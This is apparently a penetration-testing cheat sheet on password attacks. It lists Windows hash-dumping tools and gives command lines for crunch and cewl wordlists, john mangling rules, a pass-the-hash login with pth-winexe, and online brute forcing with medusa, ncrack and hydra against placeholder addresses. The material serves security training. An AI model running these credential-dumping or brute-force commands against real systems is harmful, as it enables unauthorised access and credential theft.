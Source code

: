 # Windows Tools
## fgdump.exe
Injects dll code into lsass process with hash cracking code.

Dumps Windows Password Hashes (requires Administrative Privs)

## wce.exe (Windows Credential Editor)
wce64.exe for x64

wce.exe for x86


## pwdump.exe

Injects dll code into lsass process with hash cracking code.

Dumps Windows Password Hashes (requires Administrative Privs)

## Crunch
```
# See man page for examples
root@kali:~# crunch 6 6 0123456789ABCDEF -o crunch1.txt 
root@kali:~# crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha 
# @ - Lower case alpha characters 
# , - Upper case alpha characters 
# % - Numeric characters 
# ^ - Special characters including space 
root@kali:~# crunch 8 8 -t ,@@^^%%% 
```

## Passing the Hash
Capture NT/LM hash

```
export SMBHASH=<NT/LMHASH>
pth-winexe -U administrator% //10.x.x.x cmd
```

## Password Profiling
```
cewl www.google.com -m 6 -w /root/Desktop/google-words.txt

# john tricks
# add 2 numbers to the end of every password
$[0-9]$[0-90]  # (/etc/john/john.conf)
john --wordlist=/root/Desktop/google-words.txt --rules --stdout | > /root/Desktop/mangled.txt
```

# Online Attacks

## Medusa
```
medusa -h 10.x.x.x -u admin -P wordlist.txt -M http -m DIR:/admin -T 20     # for htaccess file protected page
```
## Ncrack (reliable for rdp)
```
ncrack -v -f --user administrator -P wordlist.txt rdp://10.x.x.x,CL=1
```

## Hydra (can be used for lots of online schemes)
```
hydra -l admin -P wordlist.txt -v 10.x.x.x ftp
```

## LM/NTLM
xp/2k3 and prior use LM

vista/2k8 and newer use NTLM
